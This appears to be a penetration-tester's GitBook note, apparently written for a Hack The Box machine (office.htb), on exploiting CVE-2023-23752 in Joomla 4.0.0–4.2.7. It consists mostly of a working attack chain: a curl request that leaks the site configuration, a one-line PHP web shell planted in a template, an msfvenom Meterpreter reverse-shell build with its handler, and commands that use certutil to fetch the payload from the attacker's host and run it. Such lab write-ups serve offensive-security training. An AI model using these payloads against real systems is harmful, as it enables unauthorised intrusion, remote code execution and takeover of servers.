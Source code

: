 ```yaml
---
description: CVE-2023-23752
---
```


# Joomla!

{% embed url="https://vulncheck.com/blog/joomla-for-rce" %}

On February 16, 2023, Joomla! published a [security advisory](https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html) for [CVE-2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752). The advisory describes an “improper access check” affecting Joomla! 4.0.0 through 4.2.7. The following day, a [chinese-language blog shared](https://xz.aliyun.com/t/12175) the technical details of the vulnerability. The blog describes an authentication bypass that allows an attacker to leak privileged information. If an attacker can log into the Joomla! administrative web interface, as the Super User, the attacker has easy path to execute arbitrary code.

For Information Disclosure, run the following command.&#x20;

```bash
curl 'http://office.htb/api/index.php/v1/config/application?public=true' | jp
```

For RCE, run the following steps. Save it after you modify the index.php template.&#x20;

```bash
<?php if (isset($_GET['cmd'])) system($_GET['cmd']); ?> 
```

<figure><img src="../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Meterpreter version

# Create a meterpreter exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=1234 -f exe -o shell1234.exe

# Set up a handler for meterpreter
sudo msfconsole -q -x "use exploit/multi/handler;set PAYLOAD windows/x64/meterpreter/reverse_tcp;set AutoRunScript post/windows/manage/migrate;set LHOST 10.10.14.9;set LPORT 1234;run -j"

# Run the following commands after updating the index.php. 
Kali> curl -k 'http://office.htb/?cmd=certutil%20-urlcache%20-split%20-f%20http://10.10.14.9/shell1234.exe'
Kali> curl -k 'http://office.htb/?cmd=.\shell1234.exe'
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>
